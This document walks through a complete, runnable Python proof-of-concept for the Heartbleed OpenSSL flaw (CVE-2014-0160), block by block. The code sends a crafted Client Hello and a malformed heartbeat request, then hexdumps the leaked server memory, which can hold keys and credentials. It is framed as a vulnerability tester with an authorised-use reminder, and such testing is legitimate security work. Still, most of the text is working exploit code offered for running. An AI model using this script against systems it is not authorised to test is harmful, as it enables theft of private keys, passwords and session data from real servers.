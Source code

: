 ### Heartbleed Vulnerability Testing Script Explanation

The provided Python script is designed to test for the Heartbleed vulnerability (CVE-2014-0160) in servers that use OpenSSL. This vulnerability allows an attacker to read sensitive data from the memory of the server.

```python
import sys
import struct
import socket
import time
import select
import re
import codecs
from optparse import OptionParser
```

- **Import Statements:**
  - `sys`: Provides access to some variables used or maintained by the Python interpreter.
  - `struct`: Interprets packed binary data.
  - `socket`: Provides access to the BSD socket interface.
  - `time`: Provides various time-related functions.
  - `select`: Provides a mechanism for I/O multiplexing.
  - `re`: Provides regular expression matching operations.
  - `codecs`: Provides access to the codec registry and base classes for codecs.
  - `OptionParser`: Allows parsing of command-line options and arguments.

```python
decode_hex = codecs.getdecoder('hex_codec')

options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')
options.add_option('-s', '--starttls', action='store_true', default=False, help='Check STARTTLS')
options.add_option('-d', '--debug', action='store_true', default=False, help='Enable debug output')
```

- **OptionParser:**
  - Configures command-line options for the script.
  - Options include specifying the server (`server`), port (`port`), enabling STARTTLS check (`starttls`), and enabling debug output (`debug`).

```python
def h2bin(x):
        return decode_hex(x.replace(' ', '').replace('\n', ''))[0]

hello = h2bin('''
        16 03 02 00  dc 01 00 00 d8 03 02 53
        43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
        bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
        00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
        00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
        c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
        c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
        c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
        c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
        00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
        03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
        00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
        00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
        00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
        00 0f 00 01 01                                  
        ''')

hb = h2bin(''' 
        18 03 02 00 03
        01 40 00
        ''')
```

- **Heartbleed Payloads:**
  - Defines functions (`h2bin`) to convert hexadecimal strings into binary data.
  - Initializes the Client Hello (`hello`) and Heartbeat (`hb`) payloads as hexadecimal strings.

```python
def hexdump(s):
    for b in range(0, len(s), 16):
        lin = [c for c in s[b : b + 16]]
        hxdat = ' '.join('%02X' % c for c in lin)
        pdat = ''.join(chr(c) if 32 <= c <= 126 else '.' for c in lin)
        print( '  %04x: %-48s %s' % (b, hxdat, pdat))
    print()
```

- **Hexdump Function:**
  - Defines a function (`hexdump`) to display a hex dump of the received data.

```python
def recvall(s, length, timeout=5):
    endtime = time.time() + timeout
    rdata = b''
    remain = length
    while remain > 0:
        rtime = endtime - time.time() 
        if rtime < 0:
           

 return None
        r, w, e = select.select([s], [], [], 5)
        if s in r:
            data = s.recv(remain)
            # EOF?
            if not data:
                                return None
            rdata += data
            remain -= len(data)
    return rdata
        

def recvmsg(s):
    hdr = recvall(s, 5)
    if hdr is None:
        print( 'Unexpected EOF receiving record header - server closed connection')
        return None, None, None
    typ, ver, ln = struct.unpack('>BHH', hdr)
    pay = recvall(s, ln, 10)
    if pay is None:
        print( 'Unexpected EOF receiving record payload - server closed connection')
        return None, None, None
    print( ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay)))
    return typ, ver, pay
```

- **Receive Functions:**
  - Defines functions (`recvall` and `recvmsg`) to receive data from the server.

```python
def hit_hb(s):
    s.send(hb)
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print( 'No heartbeat response received, server likely not vulnerable')
            return False

        if typ == 24:
            print( 'Received heartbeat response:')
            hexdump(pay)
            if len(pay) > 3:
                print( 'WARNING: server returned more data than it should - server is vulnerable!')
            else:
                print( 'Server processed malformed heartbeat, but did not return any extra data.')
            return True

        if typ == 21:
            print( 'Received alert:')
            hexdump(pay)
            print( 'Server returned error, likely not vulnerable')
            return False
```

- **Heartbleed Test Function:**
  - Defines a function (`hit_hb`) to send the Heartbeat payload and check the response.

```python
def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print( 'Connecting...')
    sys.stdout.flush()
    s.connect((args[0], opts.port))

    if opts.starttls:
        re = s.recv(4096)
        if opts.debug: print( re)
        s.send(b'ehlo starttlstest\n')
        re = s.recv(1024)
        if opts.debug: print( re)
        if not b'STARTTLS' in re:
            if opts.debug: print( re)
            print( 'STARTTLS not supported...')
            sys.exit(0)
        s.send(b'starttls\n')
        re = s.recv(1024)
    
    print( 'Sending Client Hello...')
    sys.stdout.flush()
    s.send(hello)
    print( 'Waiting for Server Hello...')
    sys.stdout.flush()
    while True:
        typ, ver, pay = recvmsg(s)
        if typ == None:
            print( 'Server closed connection without sending Server Hello.')
            return
        # Look for server hello done message.
        if typ == 22 and pay[0] == 0x0E:
            break

    print( 'Sending heartbeat request...')
    sys.stdout.flush()
    s.send(hb)
    hit_hb(s)

if __name__ == '__main__':
        main()
```

- **Main Function:**
  - Parses command-line options and arguments.
  - Establishes a TCP connection to the target server.
  - Optionally performs STARTTLS check.
  - Sends the Client Hello and waits for the Server Hello.
  - Sends the Heartbeat request and checks the server response using the `hit_hb` function.

#### Note:

- This script is specifically designed to test for the Heartbleed vulnerability.
- Ensure that the `socket` library is available before running the script.
- Use this script responsibly and only on systems where you have explicit permission to test for vulnerabilities.
